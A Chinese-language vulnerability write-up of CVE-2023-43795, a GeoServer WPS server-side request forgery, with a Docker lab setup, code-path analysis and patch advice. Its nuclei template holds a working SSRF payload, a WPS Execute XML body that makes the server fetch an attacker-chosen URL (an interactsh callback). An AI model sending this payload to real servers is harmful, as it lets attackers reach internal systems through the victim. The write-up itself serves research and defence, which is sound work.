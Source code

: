 # 0x00 概述

GeoServer 是一个用 Java 编写的开源软件服务器，它可以让用户共享和编辑地理空间数据，GeoServer 遵循 OpenGIS Web 服务器规范，使用开放标准发布来自任何主要空间数据源的数据。经过分析，该软件存在ssrf漏洞，攻击者可以从服务端实现任意请求伪造。

| 字段 | 值 | 备注 |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-43795 |  |
| 漏洞厂商 | GeoServer |  |
| 厂商官网 | [https://geoserver.org/](https://geoserver.org/) |  |
| 影响对象类型 | Web应用 |  |
| 影响产品 | GeoServer |  |
| 影响版本 | version<2.22.5,version < 2.23.2 |  |
|  |  |

# 0x01 漏洞影响

[https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956](https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956)

- version<2.22.5,version < 2.23.2

- 需要安装 wps 插件


# 0x02 漏洞环境

基于 [https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157) 进行搭建，只是要安装wps插件

这里版本为2.22.1

安装对应版本的wps插件，下载： [https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download，下载完之后解压](https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download，下载完之后解压)

修改docker compose：

```
version: '3'
services:
 web:
   image: vulhub/geoserver:2.22.1
   depends_on:
    - postgres
   ports:
    - "8080:8080"
    - "5005:5005"
   volumes:
     - ./startup.sh:/startup.sh
     - ./startup2.sh:/mnt/geoserver/bin/startup.sh
     - ./gs-web-wps-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-web-wps-2.22.1.jar
     - ./gs-wps-core-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-core-2.22.1.jar
     - ./gs-wps-kml-ppio-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-kml-ppio-2.22.1.jar
     - ./gt-csv-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-csv-28.1.jar
     - ./gt-process-geometry-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-process-geometry-28.1.jar
     - ./gt-xsd-kml-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-kml-28.1.jar
     - ./gt-xsd-wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-wps-28.1.jar
     - ./net.opengis.wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/net.opengis.wps-28.1.jar
     - ./opencsv-5.0.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/opencsv-5.0.jar
     - ./serializer-2.7.2.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/serializer-2.7.2.jar
   command: bash /startup.sh
 postgres:
   image: postgis/postgis:14-3.3-alpine
   environment:
    - POSTGRES_PASSWORD=vulhub
    - POSTGRES_DB=geoserver

```

如果要调试的话，修改一下容器中的 `/mnt/geoserver/bin/startup.sh` 文件：

![](./assert/20231124001330-3dc411d4-8a1b-1.png)

```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

# 0x03 漏洞验证和利用

运行nuclei：

```
id: CVE-2023-43795

info:
  name: GeoServer WPS - Server Side Request Forgery
  author: DhiyaneshDK
  severity: critical
  description: |
    GeoServer is an open source software server written in Java that allows users to share and edit geospatial data. The OGC Web Processing Service (WPS) specification is designed to process information from any server using GET and POST requests. This presents the opportunity for Server Side Request Forgery. This vulnerability has been patched in version 2.22.5 and 2.23.2.
variables:
  string: "{{to_lower(rand_text_alpha(4))}}"
  value: "{{to_lower(rand_text_alpha(5))}}"

http:
  - raw:
      - |
        POST {{path}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/xml

        <?xml version="1.0" encoding="UTF-8"?>
        <wps:Execute version="1.0.0" service="WPS"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xmlns="http://www.opengis.net/wps/1.0.0"
          xmlns:wfs="http://www.opengis.net/wfs"
          xmlns:wps="http://www.opengis.net/wps/1.0.0"
          xmlns:ows="http://www.opengis.net/ows/1.1"
          xmlns:gml="http://www.opengis.net/gml"
          xmlns:ogc="http://www.opengis.net/ogc"
          xmlns:wcs="http://www.opengis.net/wcs/1.1.1"
          xmlns:xlink="http://www.w3.org/1999/xlink"
                xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
          <ows:Identifier>JTS:area</ows:Identifier>
          <wps:DataInputs>
            <wps:Input>
              <ows:Identifier>geom</ows:Identifier>
              <wps:Reference mimeType="application/json" xlink:href="http://{{interactsh-url}}" method="GET">
                <wps:Header key="{{string}}" value="{{value}}"/>
              </wps:Reference>
            </wps:Input>
          </wps:DataInputs>
          <wps:ResponseForm>
            <wps:RawDataOutput>
              <ows:Identifier>result</ows:Identifier>
            </wps:RawDataOutput>
          </wps:ResponseForm>
        </wps:Execute>

    payloads:
      path:
        - /wms
        - /geoserver/wms

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, 'http')
          - contains_all(to_lower(interactsh_request), '{{string}}','{{value}}')
          - status_code == 200
        condition: and

```

```
nuclei.exe -t CVE-2023-43795.yaml -u http://192.168.88.132:8080/

```

![](./assert/20231124001342-45562a0e-8a1b-1.png)

# 0x04 漏洞分析

访问 `/geoserver/wms` ，在 `org.geoserver.ows.Dispatcher` 的 `service()` 中，会调用 `this.findService()` 确定要调用的service：

![](./assert/20231124001412-56da9076-8a1b-1.png)

调用 `this.execute()` ：

![](./assert/20231124001421-5cb628c0-8a1b-1.png)

来到 `org.geoserver.wps.DefaultWebProcessingService` 的 `execute()` ：

![](./assert/20231124001430-61ddfb20-8a1b-1.png)

跟进由一个 `executionManager` 负责处理 request ：

![](./assert/20231124001438-66bf4b26-8a1b-1.png)

最终调用一个 `WPSExecutionManager$Executor` 对象的 `call()` ：

![](./assert/20231124001446-6b5e0e74-8a1b-1.png)

最终触发 `org.apache.http.impl.client.CloseableHttpClient.execute()` 实现ssrf：

![](./assert/20231124001453-6f813512-8a1b-1.png)

![](./assert/20231124001459-733248c2-8a1b-1.png)

# 0x05 漏洞修复

更新版本到 >=2.22.5 ，或更新版本>= 2.23.2